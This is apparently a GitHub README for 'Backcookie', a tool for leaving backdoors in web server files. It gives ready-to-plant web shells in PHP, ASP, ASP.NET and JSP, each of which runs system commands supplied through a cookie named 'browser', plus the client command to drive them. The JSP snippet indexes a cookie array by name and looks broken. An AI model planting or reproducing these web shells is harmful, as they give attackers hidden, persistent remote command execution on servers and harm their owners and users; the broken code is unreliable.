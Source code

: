 # Backcookie
It is a tool that allows you to leave a backdoor on a given file on a web server in PHP,ASP,ASPX,JSP, through the connection between the server and the cookie (which works as an access key).

## PHP
Put this script in a PHP file on the web server.

```sh
<?php error_reporting(0); system($_COOKIE["browser"]); ?>
```

## Execution

We must specify the url with the file, and then the cookie.

```sh
python3 backcookie.py -d 'http://192.168.219.130/sistema/test.php' -c browser
```

![image](https://user-images.githubusercontent.com/66162160/217388824-5aa01fb7-ae6e-4729-ae7b-e52f43f60557.png)


## ASP

```sh
<% 
On Error Resume Next 
dim cmd : cmd = Request.Cookies("browser") 
ExecuteGlobal(cmd) 
%> 
```

## ASP .NET

```sh
<%@ Page Language="C#" %>
<% 
try
{ 
    string cmd = Request.Cookies["browser"].Value;
    System.Diagnostics.Process.Start("cmd.exe", "/c " + cmd);
} 
catch (Exception ex) 
{
    // handle error 
} 
%> 
```

## JSP

```
<%
String cmd = request.getCookies()["browser"].getValue();
try
{
    Runtime.getRuntime().exec(cmd);
}
catch (Exception e)
{
    // handle error
}
%>
```

